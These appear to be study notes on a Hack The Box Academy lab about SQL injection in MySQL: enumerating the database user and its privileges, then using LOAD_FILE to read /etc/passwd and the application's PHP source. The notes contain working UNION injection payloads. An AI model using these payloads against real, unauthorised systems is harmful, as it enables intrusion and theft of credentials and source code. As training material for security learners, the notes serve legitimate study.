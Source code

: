 # Reading Files

Within the other modules in this course, you have seen methods for retrieving information from existing fields and columns within databases. What has yet to be covered is that these fields and columns can also be modified or generated via SQL injection. 

While reading data is the most common application of injections, escalating privileges via injection can be used to further exploit and modify these systems. Within MySQL, the user needs to obtain FILE privileges in order to import data to the table.

When enumerating in these cases, you will need to reveal user privilege data in order to determine if you can gain access to writing access on the back-end. You need to know which user you are when you are accessing the database. You do not necessarily need to be an admin to do this although as time progresses the modern security conventions DO require administrative access before changes can be executed. 

The following series of statements and their subsequent alternatives can be used to determine which user we are operating as:

>SELECT USER()
>SELECT CURRENT_USER()
>SELECT user FROM mysql.user

Here is the UNION injection variant:

>cn' UNION SELECT 1, user(), 3, 4-- -

An alternative UNION:

>Lcn' UNION SELECT 1, user, 3, 4 FROM mysql.user-- -

Any of these statements could be used to detect the name of the user account we have access to. In the case of this module, the username is 'root', which is great because it likely comes with high levels of privilege.

#### Privileges

Now that we have determined which user account we have access to, we can determine the existing privileges for the user. 

The following statement can be used to determine if we have superuser privileges:

>SELECT super_priv FROM mysql.user

This can be further modified to carry a payload:

>cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -

If there are an overwhelming amount of users within the database, the following statement can be injected using WHERE user='root' to only show the privileges of the root user:

>cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -

In the case of this module, the query will return the value Y which indicates that yes, we have superuser privileges. 

With the following statement, we can look further into the privileges that we have directly from the schema:

>cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -

Next, we can continue to add to this statement using WHERE grantee="'root'@'localhost'" to reveal only the current user privileges:

>cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -

This should successfully reveal all privileges of the root user. In the example, you can see that the root user has FILE permissions that allow you to read and maybe write files to the database.

#### LOAD_FILE

The LOAD_FILE function within MariaDB or MySQL can be used to read data from files by taking the file name as an argument. 

The following query will read the /etc/passwd  file:

>SELECT LOAD_FILE("/etc/passwd"), 3, 4-- -

This will successfully read the passwd file from our example database. Caution should be applied here as the source code for the application could be leaked in this circumstance.

#### search.php

The page being viewed in the example is known as search.php, and we want to read the source code of this file. We will need to infiltrate the default Apache webroot /var/www/html.

You can achieve this with the following query:

>cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -

This query wil render the browser's HTML code and the source can be viewed via CTRL + U.

This will reveal the source code including the PHP code for the page. This can reveal sensitive data like connection credentials so that we can discover further vulnerabilities.

### Related:
- [Hack The Box Academy](https://academy.hackthebox.com/ "Hack The Box Academy Home page")
- [HTB Reading Files via Injection](https://academy.hackthebox.com/module/33/section/792 "HTB Reading Files via Injection")